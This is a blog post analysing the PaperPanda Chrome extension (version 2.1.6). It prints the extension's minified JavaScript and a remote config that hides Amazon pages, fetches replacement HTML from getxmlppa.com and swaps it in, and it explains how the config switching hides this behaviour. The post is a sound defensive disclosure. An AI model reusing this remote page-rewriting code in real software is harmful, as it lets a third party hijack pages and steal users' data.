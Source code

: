 ```yaml
---
title: PandaPaper turns malicious
subtitle: Chrome extension modifies HTML and tries to hide it
author: maave
type: post
draft: false
date: 2025-01-27
categories:
  - Projects
tags:
    - Chrome
    - extension
    - security
    - reverse engineering
---
```


{{< image src="/uploads/2025/paperpanda-dead.webp" alt="paper panda logo with X for eyes">}}

The "paywalling" of scientific research papers is an ongoing problem that hinders learning, hinders scientific research, and leaches profit from publicly-funded research. PaperPanda is a Chrome extension to download academic papers. Its intention is to find free links for published papers. 

However what PaperPanda does under-the-hood tells another story. I've unearthed malicious code in PaperPanda's Chrome extension and attempts to hide said malicious activity. This extension tried to modify my Amazon pages for unknown reasons - possibly a phisher or credit-card stealer. If you have this extension *UNINSTALL IT*. In this post I'll explain how this extension is malicious and how it hides that behavior.

<!--more-->

## Strange redirect

This morning I was just browsing the internet with Google Chrome. The regular - procrastinating on StackExchange Hot Network Questions - and I came across an old-English word I've never seen. So I highlighted the word, right clicked, and selected "Search Google for _____". Instead of going to Google, my search went to Yahoo. Huh? I checked the history and found a very suspicious domain: `search-yahoo-now.com`. My search was hijacked. Sound the alarm, we have a breach!

`https://search-yahoo-now.com/?guid=877e15a82fa0a426bfd4ce9a6d96625e4&ext=9&domain=google.com&cid=html&rdd=15&q=iwur%C3%B0ge`

I searched this domain on Google and found only one useful result: a reddit post that insinuated that PaperPanda was responsible. After checking the extension's recent reviews I saw multiple complaints about this. Case closed? Hell no, I need to know the extent of this hack. I'm going to rip this app apart, get proper evidence, and then lay blame.

## Extension investigation

Going into my Chrome profile folder, I searched the contents of all my extensions looking for something. I tried searching for this string. I couldn't find any instance of it, not in plaintext or base64 encoded (a common obfuscation technique). Unfortunately I have too many installed and can't audit the code for every single one.

Since I had a tip, but not proof, that it was PaperPanda, I did an in-depth review of the code. Chrome extensions are made with HTML and Javascript and hosted in the app data folder.

`C:\Users\Maave\AppData\Local\Google\Chrome\User Data\Default\Extensions`

PaperPanda's extension ID is `ggjlkinaanncojaippgbndimlhcdlohf` and the malicious version is `2.1.6`.

`C:\Users\Maave\AppData\Local\Google\Chrome\User Data\Default\Extensions\ggjlkinaanncojaippgbndimlhcdlohf\2.1.6_0`

Fortunately, viewing the code for a Chrome extension is easy and there aren't too many files. Unfortunately the code is "minified" which compacts the code and replaces function and variable names. I used Notepad++ with the plugin JSTools for formatting. A Javascript formatter will make it readable but the single-letter names are still difficult.

### Main files

`content.js` calls `background.js` which fetches a config from an external website `getxmlppa.com`. There are two endpoints, "config.php" and "install.php". The "install" endpoint appears unused and the endpoint returns nothing. The "config" is used directly by the extension and returns a JSON object.

#### File contents

(ZIP file of the extension)[/uploads/2025/paperpanda_2.1.6.zip]

<details>
  <summary>background.js [SPOILER]</summary>

```
(function () {
    "use strict";
    const o = "https://getxmlppa.com/";
    async function i(n = !1) {
        const c = `${o}config.php?` + Date.now(), {
            config: t,
            configTimestamp: e
        } = await chrome.storage.local.get(["configTimestamp", "config"]);
        if (!n && Date.now() - (e || 0) < 3e5)
            return t;
        const a = await fetch(c).then(s => s.json());
        return chrome.storage.local.set({
            config: a,
            configTimestamp: Date.now()
        }),
        a
    }
    i(!0),
    chrome.runtime.onMessage.addListener((n, c, t) => {
        if (n === "get-config")
            return i().then(e => t(e)), !0
    }),
    chrome.runtime.onInstalled.addListener(function (n) {
        n.reason === "install" && fetch(`${o}install.php`)
    })
})();
```
</details>

<details>
  <summary>content.js [SPOILER]</summary>

```
(function () {
    "use strict";
    let f = l();
    async function l() {
        return await chrome.runtime.sendMessage("get-config")
    }
    async function m() {
        document.location.hostname;
        var o = document.documentElement.innerHTML;
        function a(t, e) {
            if (!e || e === e) {
                var n = t.exec(o);
                if (n && n.length > 1)
                    return n[1]
            }
            return !1
        }
        function s() {
            var t,
            e = ["citation_doi", "doi", "dc.doi", "dc.identifier", "dc.identifier.doi", "bepress_citation_doi", "rft_id", "dcsext.wt_doi"],
            n = document.getElementsByTagName("meta");
            return Array.prototype.forEach.call(n, function (r) {
                if (r.name && !(e.indexOf(r.name.toLowerCase()) < 0) && !(r.scheme && r.scheme.toLowerCase() !== "doi")) {
                    var c = r.content.replace("doi:", "").replace(/https?:\/\/(www\.)?doi\.org\//i, "").trim();
                    c.indexOf("10.") === 0 && (t = c)
                }
            }),
            t ? (console.log("found a DOI from a meta tag: " + t), t) : null
        }
        async function i() {
            for (var t = (await f).p, e = 0; e < t.length; e++) {
                var n = t[e],
                r = a(new RegExp(n.regex), n.host);
                if (r)
                    return r
            }
            return null
        }
        async function d() {
            for (var t = [s, i], e = 0; e < t.length; e++) {
                var n = await t[e]();
                if (n)
                    return n
            }
            return null
        }
        var u = await d();
        return u
    }
    function g(o) {
        if (document.readyState !== "loading") {
            o();
            return
        }
        document.addEventListener("DOMContentLoaded", o)
    }
    function p(o) {
        return o.replace(/{[\w.]+}/, a => {
            const i = a.substr(1, a.length - 2).split(".").reduce((d, u) => d[u], window);
            return encodeURIComponent(i)
        })
    }
    const v = document.location + "";
    g(async() => {
        const o = (await f).s;
        function a() {
            for (const i of o)
                new RegExp(i.pattern, "gi").test(v) && [...document.querySelectorAll(i.selector)].filter(e => !e.hasAttribute("skip-element")).forEach(e => {
                    const n = e.style.display;
                    e.style.display = "none",
                    e.setAttribute("skip-element", !0),
                    fetch(p(i.url)).then(r => r.text()).then(r => {
                        const c = r.trim();
                        c && (e[i.attr] = c)
                    }).catch(() => {}).then(() => e.style.display = n)
                })
        }
        a(),
        new MutationObserver(() => a()).observe(document.body, {
            childList: !0,
            subtree: !0
        })
    }),
    chrome.runtime.onMessage.addListener((o, a, s) => {
        if (o === "get-doi")
            return m().then(i => s(i)), !0
    })
})();
```
</details>

<details>
  <summary>response from config.php aka config.json [SPOILER]</summary>

```
{
  "p": [
    {
      "regex": "\"doi\":\"([^\"]+)\"",
      "host": "ieeexplore.ieee.org"
    },
    {
      "regex": "SDM.doi\\s*=\\s*'([^']+)'",
      "host": "sciencedirect.com"
    },
    {
      "regex": "href=\"/doi/(10\\..+?)\"",
      "host": "psycnet.apa.org"
    },
    {
      "regex": "https?:\\/\\/doi.org\\/(10\\.\\d+\\/.*)",
      "host": "cairn.info"
    },
    {
      "regex": "article:article:(10\\.\\d+[^;]*)",
      "host": "inderscienceonline.com"
    }
  ],
  "s": [
    {
      "pattern": "^https?:\\/\\/(www\\.)?amazon\\.[a-z]{2,3}(\\.[a-z]{2})?\\/.*",
      "selector": "html",
      "attr": "innerHTML",
      "url": "https://getxmlppa.com/ama.php?p=amazon&u={location.href}"
    },
    {
      "pattern": "^https?:\\/\\/(www\\.)?amazon\\.[a-z]{2,3}(\\.[a-z]{2})?\\/.*",
      "selector": "head",
      "attr": "innerHTML",
      "url": "https://getxmlppa.com/ama.php?p=amazon&u={location.href}"
    },
    {
      "pattern": "^https?:\\/\\/(www\\.)?amazon\\.[a-z]{2,3}(\\.[a-z]{2})?\\/.*",
      "selector": "body",
      "attr": "innerHTML",
      "url": "https://getxmlppa.com/ama.php?p=amazon&u={location.href}"
    }
  ]
}
```
</details>

### Code breakdown

background.js contains code to fetch a JSON config from a remote website. The first thing I did was check the endpoints. I visited the url `https://getxmlppa.com/config.php` directly without any HTTP parameters. This config endpoint returned different information the first and second time I queried it. My original response is posted above, formatted for easier reading, no changes were made besides the whitespace formatting.

The first result included _regex to match Amazon URLs_ in the "s" array. When I queried it a second time, _the "s" array was empty_. Wow. We already found suspicious activity just by visiting a link. I cannot replicate this because the app loads content dynamically. The website is hiding its activity. I think I got lucky and I fetched the cached version on the first attempt.

I'm off to a good start. I was expecting Google or Yahoo links but I got Amazon. PaperPanda should not be touching Amazon URLs _ever_. I also found a new endpoint, `ama.php`

Let's walk through the code to determine what's it doing with this config. The suspect code is in content.js in the areas `g(o)`, `p(o)`, and the `g(async() => {` functions. The function `g(o)` creates a listener for page loading, then executes the async() function that was passed to it.

In this config JSON, the "p" array is used legitimately by the extension when you click the extension and "download this paper". "s" array is suspect and is used on page-load to replace part of the HTML contents. I'll explain what the JS code is doing:

1. add an event listener for DOMContentLoaded, to run after the page loads
2. check if the current URL matches a grep pattern (var "pattern" from array "s") and check if element has "skip-element" attribute
3. select HTML elements (using var "selector")
4. hide element
5. add "skip-element" attribute to avoid reprocessing
6. fetch remote content (from var "url")
7. replace one of the element's attributes (var "attr") with new content
8. unhide element

This makes the behavior entirely dependent on the config. In my config it's attempting to replace the entire HTML document for Amazon URLs

```
{
  "pattern": "^https?:\\/\\/(www\\.)?amazon\\.[a-z]{2,3}(\\.[a-z]{2})?\\/.*",
  "selector": "html",
  "attr": "innerHTML",
  "url": "https://getxmlppa.com/ama.php?p=amazon&u={location.href}"
},
```

recreating the steps with this config would cause this to happen:

1. add event listener DOMContentLoaded
2. check if URL matches amazon
3. select HTML element "html" (**the entire page**)
4. hide element
5. add "skip-element" attribute to avoid reprocessing
6. fetch content from `https://getxmlppa.com/ama.php?p=amazon&u={location.href}`
7. replace attribute "innerHTML" (**all of the page's code**) with content fetched
8. unhide element

This is malicious. This is trying to replace the entirety of my Amazon pages with its own content. PaperPanda has no reason to touch Amazon links. Without that config, this piece of code looks benign. It could be explained away by saying the code is intended to place URLs (it could, theoretically, replace the "url" attribute in anchor elements). With this config it's clear that this extension targeting websites outside its intended use. It is **malicious** and **trying to hide its behavior by changing configs**.

The endpoint `ama.php` responds with a 200 response but doesn't return any data, even with the params filled in. I'm unsure if the endpoint is nonfunctional, or if it was intentionally disabled when the config was changed. So the real goal of this content replacement is unknown. This app could have been stealing logins, credit card info, etc. It could've replaced affiliate information with its own like the recent Honey shopping extension scam. It could've done anything with any page. This is not accidental and not a result of some kind of library-inclusion-attack. PaperPanda targeted Amazon links and tried to _replace the entire HTML content_.

## Check yourself

If you have a page which you suspect of being hijacked, don't reload yet. Right click, inspect, then Ctrl+F and search for "skip-element". This attribute is not standard. If "skip-element" is anywhere in your HTML elements it's because of PaperPanda.

Get the stored config data from the Chrome console. Go to `chrome://extensions` and enable Developer Mode. Scroll to PaperPanda, click the link to "service worker" which will open Chrome DevTools. This should open straight to the Console tab. Type `chrome.storage.local.get(console.log)` to output the local storage. My extension already updated so the "s" array is empty.

Another way: On any page, open the PaperPanda extension, right click on it, inspect. This should be inspecting the extension, the DevTools window that pops up should be titled `chrome-extension://ggjlkinaanncojaippgbndimlhcdlohf/popup.html` Then in the Console tab of DevTools type `chrome.storage.local.get(console.log)` to output the local.

View the extension code yourself from chrome profile data. For me that's in: `C:\Users\UserName\AppData\Local\Google\Chrome\User Data\Profile 1\Extensions\ggjlkinaanncojaippgbndimlhcdlohf` because I have multiple profiles. If you have a single profile in Chrome then it would be in the "Default" folder: `C:\Users\UserName\AppData\Local\Google\Chrome\User Data\Default\Extensions\ggjlkinaanncojaippgbndimlhcdlohf`. The Javascript files have been minified so it needs to be formatted for reading. I used the Notepad++ plugin JSTool to format it. There are also plenty of JS formatters online. But the variable names and function names are still single letters so it's hard to follow.


## Conclusion

PaperPanda is hijacking web contents. I didn't find a Yahoo search redirect but instead I found an arbitrary page re-writer driven by a config that changes every time you load it. They attempt to evade detection by moving the payload to an external page. This garbage plugin has been installed on my Chrome for months and I only noticed because they performed a blatant redirect. Who knows what damage it caused, what information it stole, because it could have modified any website to have any content.

Uninstall this extension. Report it for abuse. _Distrust extensions that ask for permission to all websites_.